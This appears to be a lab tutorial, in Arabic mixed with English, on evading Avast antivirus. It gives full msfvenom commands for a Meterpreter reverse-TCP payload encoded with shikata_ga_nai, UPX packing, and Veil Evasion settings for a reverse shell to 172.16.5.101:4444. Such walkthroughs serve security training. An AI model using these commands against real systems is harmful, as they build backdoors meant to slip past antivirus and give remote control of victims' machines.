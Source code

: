 خلونا نقفل السيشن الان ونفعل الحماية حقت الانتي فايروس  
```bash
exit  
exploit  
```  
الان قفلنا السيشن وفتحنا الليسنر من جديد  

خلونا نرجع لجهاز التارقت ونفتح الـ Avast  
نشوف فوق يمين فيه Menu نضغطها  
بعدين نختار Settings  
بعدين نختار Protection  
بعدين نختار Core Shields  
ونفعل اول زر الي هو Core Shields  

خلونا الان نجرب احد التخطيات اسمه shikata_ga_nai  
خلونا نسوي البايلود باستخدام هذا التخطي  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.101 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 > rTCPenc.exe  
```  
نشوف الان انه شفر لنا البايلود باستخدام x86/shikata_ga_nai وخليناه يشفر لنا اياه 5 مرات  

طيب الان خلونا نرجع لجهاز التارقت ونحمل البايلود الجديد  
ونشوف انه الـ Avast AV also blocked this file, So the downloading failed  

خلونا الان نستخدم اداة جديدة اسمها upx وظيفتها راح تضغط لنا الملف  
```bash
upx --best --ultra-brute -f rTCPenc.exe -o rTCPenc2.exe  
```  
نشوف الان انه تم تشفير ملف الـ exe  

خلونا نرجع لجهاز التارقت الان ونحاول نحمل الملف الجديد  
نشوف انه كذالك رفض يحمل الملف الجديد  
وهذا يعني ان الـ Avast AV detected this encoded and packed payload as well  

So the msfvenom payload wasn't successful in bypassing Avast AV's detection, and neither were the encoded or packed payloads!  


طيب الان راح نحاول نطبق شي جديد والي هو Veil Framework  
نفتح تاب جديد ونكتب الامر التالي عشان يفتح لنا الفريم وورك  
```bash
veil  
```  
نشوف انه فتح لنا وقال فيه اداتين متوفره Evasion & Ordnance  
خلونا نختار الخيار الاول وهو Evasion payload  
```bash
use 1  
```  
الان قالنا انه فيه 41 بايلود نقدر نستخدمه  
خلونا نستعرضهم عن طريق الامر التالي  
```bash
list  
```  
طيب خلونا نجرب البايلود الي رقمه 28 والي هو  
```bash
python/meterpreter/rev_tcp.py  
```  
عشان نستخدم هذا البايلود نكتب الامر هذا  
```bash
use 28  
```  
طبعا في هذا البايلود يحتاج متغيرين والي هي LPORT , LHOST  
خلونا نعطيه القيم هذي بهذي الاوامر  
```bash
set LHOST 172.16.5.101  
set LPORT 4444  
generate  
```  
الان نشوف انه حفظ لنا المخرجات في ملف اسمه rTCPveil  
